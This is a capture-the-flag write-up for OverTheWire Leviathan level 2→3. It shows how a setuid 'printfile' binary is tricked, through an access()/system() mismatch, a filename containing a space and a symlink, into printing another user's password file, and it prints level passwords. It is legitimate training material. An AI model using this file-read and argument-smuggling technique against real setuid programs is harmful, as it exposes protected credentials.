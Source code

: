 # Leviathan Level 2 → Level 3
There is no information for this level, intentionally.

## Solution

```
┌──(kali㉿kali)-[~]
└─$ ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
leviathan2@leviathan.labs.overthewire.org's password: ougahZi8Ta
```
Linux leviathan 4.18.12 x86_64 GNU/Linux
```               
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
               
```             
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!

  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!
```
leviathan2@leviathan:~$ ls -al                                          #list all the contents in the homedirectory of leviathan2
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile         #there is a setuid file named as printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile

leviathan2@leviathan:~$ file printfile                                  #to know the file type of printfile
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped

leviathan2@leviathan:~$ ./printfile                                     #since it is an executable file, execute it
*** File Printer ***
Usage: ./printfile filename                                             #it prints any file mentioned with it

leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3      #try to print the leviathan3 password file
You cant have that file...

                                                                        #make a file to test the setuid file
                                                                       

leviathan2@leviathan:~$ mkdir /tmp/myl2                                 #create a directory myl2 under temp

leviathan2@leviathan:~$ cd /tmp/myl2                                    #navigate to myl2 directory

leviathan2@leviathan:/tmp/myl2$ touch test.txt                          #create a file test.txt in the myl2 directory

leviathan2@leviathan:/tmp/myl2$ ltrace ~/printfile test.txt             #see the function of the setuid file with this test file
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```
### Note1: From the above output, a security hole can be witnessed. access() checks permissions based on the process’ real user ID rather than the effective user ID. Since printfile is owned by leviathan3, access() will call the process with leviathan3’s privileges.
### Note2: While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. Add a space to a filename, then /bin/cat will read the file as 2 separate files.
```
leviathan2@leviathan:/tmp/myl2$ touch pass\ file.txt                            #create a file named as "pass file.txt"

leviathan2@leviathan:/tmp/myl2$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852b, 2, 0xffffd744, 0x8048610 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++                                                       #/bin/cat calls "pass file.txt" as two seperate files "pass" and "file.txt"

leviathan2@leviathan:/tmp/myl2$ ln -s /etc/leviathan_pass/leviathan3 /tmp/myl2/pass          #create a symbolic link for "pass" part of "pass file.txt" and link it to the leviathan3 password file

leviathan2@leviathan:/tmp/myl2$ ls -la                                                       #verify the output of the above process
total 268
drwxr-sr-x   2 leviathan2 root   4096 Feb 13 10:57 .
drwxrws-wt 185 root       root 266240 Feb 13 10:56 ..
lrwxrwxrwx   1 leviathan2 root     30 Feb 13 10:57 pass -> /etc/leviathan_pass/leviathan3
-rw-r--r--   1 leviathan2 root      0 Feb 13 10:55 pass file.txt
-rw-r--r--   1 leviathan2 root      0 Feb 13 10:51 test.txt

leviathan2@leviathan:/tmp/myl2$ ~/printfile "pass file.txt"                                   #now run the setuid file for the "pass file.txt"
Ahdiemoo1j                                                                                    #leviathan3 password
/bin/cat: file.txt: No such file or directory

leviathan2@leviathan:/tmp/myl2$ rm -rf /tmp/myl2                                              #delete the created myl2 directory

leviathan2@leviathan:/tmp/myl2$ exit                                                          #logout from leviathan.labs.overthewire.org
logout
Connection to leviathan.labs.overthewire.org closed.                      

```


#### Command-line help text
```
mkdir-> make directories
file -> determine file type

ls   -> list directory contents
-a   -> do not ignore entries starting with .
-l   -> use a long listing format

cd   -> change the working directory
cat  -> concatenate files and print on the standard output
grep -> print lines matching a pattern
touch-> create a file/ change file timestamps
ln   -> make links between files
-s   -> make symbolic links instead of hard links

rm   -> remove files or directories
-r   -> remove directories and their contents recursively
-f   -> ignore nonexistent files, never prompt
```

